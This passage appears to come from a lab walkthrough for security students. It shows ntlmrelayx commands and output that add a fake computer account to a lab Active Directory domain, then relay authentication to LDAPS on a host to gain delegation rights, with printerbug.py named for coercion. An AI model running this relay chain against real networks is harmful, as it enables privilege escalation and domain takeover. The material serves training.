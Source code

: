 ```shell-session
htb-student@ubuntu:~$ sudo ntlmrelayx.py -tf target.txt -smb2support --no-da --no-acl --add-computer "Academy-Student"
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

<SNIP>
[*] Attempting to create computer in: CN=Computers,DC=INLANEFREIGHT,DC=LOCAL
[*] Adding new computer with username: Academy-Student$ and password: >ld/b:k4ie{T7i0 result: OK
```

Subsequently, after students have added a new fake computer to the domain, they will have to terminate the current session of `ntlmrelayx`. Once terminated, students need to start a new `ntlmrelayx` relay targeting `ldaps://INLANEFREIGHT\\'SQL01$'@172.16.117.3` the machine account of the host `SQL01`, with the options: `--delegate-access` option delegating access on the relayed computer account to the specified account, the `--escalate-user` option escalating privileges of the selected user instead of creating a new one, the `--no-smb-server` option disabling the SMB server, and the `--no-dump` option to prevent the attempt of dumping LDAP information about the domain.

Code: shell

```shell
sudo ntlmrelayx.py -t ldaps://INLANEFREIGHT\\'SQL01$'@172.16.117.3 --delegate-access --escalate-user 'Academy-Student$' --no-smb-server --no-dump
```

```shell-session
htb-student@ubuntu:~$ sudo ntlmrelayx.py -t ldaps://INLANEFREIGHT\\'SQL01$'@172.16.117.3 --delegate-access --escalate-user 'Academy-Student$' --no-smb-server --no-dump
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to single host
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server

[*] Setting up RAW Server on port 6666
[*] Servers started, waiting for connections
```

Right after the students have started `ntlmrelayx` and are waiting for authentication to be relayed, they will have to spawn another SSH session to the spawned target, where they will utilize `printerbug.py` located at `tools/krbrelayx/`. Using the mentioned tool, students will have to coerce an authentication using the generated credentials for the computer they have added previously, while simultaneously specifying the host listener.
